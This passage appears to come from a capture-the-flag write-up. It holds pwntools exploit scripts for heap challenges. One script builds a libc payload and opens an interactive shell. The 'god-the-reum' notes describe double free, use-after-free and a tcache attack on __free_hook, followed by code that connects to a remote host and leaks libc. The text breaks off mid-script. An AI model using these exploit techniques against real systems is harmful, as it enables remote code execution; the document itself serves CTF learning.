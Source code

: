 ```python=
        for i in range(6):
		if total[i] ==  have[1]:
                        have.append(total[i])
                        r.sendlineafter(":",str(i+1))
                        r.sendlineafter(":","-616")
                        break
                elif i==5:
                        r.sendlineafter(":","7")

have = have[:-1]
while len(have) < 4:
        r.sendlineafter(":","1")
        r.recvline()
        total = [ r.recvline().split(".")[-1] for _ in range(6)]

        for i in range(6):
                if total[i] not in have:
                        have.append(total[i])
                        r.sendlineafter(":",str(i+1))
                        r.sendlineafter(":","1")
                        break
                elif i==5:
                        r.sendlineafter(":","7")

context.arch = "amd64"
data =[libc+0x3c6790,0,libc+0xf02a4] + [0]*7 + [libc+0x3c4950]
payload = "\x00"*5+flat(data)

r.sendlineafter(":",payload)
r.interactive()


```
### god-the-reum
> Billy
* Tcache was introduced in libc-2.27
* There are double free and UAF bugs in this binary
* Free a unsorted bin to leak libc address
* Use tcache attack to malloc at __free_hook
* Overwrite __free_hook with one_gadget
* Free and get shell

```python=

from pwn import *

#r = process(['god-the-reum'])
r = remote("110.10.147.103", 10001)
r.sendlineafter(":","1")
r.sendlineafter(":","1280")
r.sendlineafter(":","1")
r.sendlineafter(":","0")

r.sendlineafter(":","3")
r.sendlineafter(":","0")
r.sendlineafter(":","1280")

r.sendlineafter(":","4")
r.recvuntil("ballance ")
libc = int(r.recvline())-0x3ebca0
print hex(libc)

r.sendlineafter(":","3")
```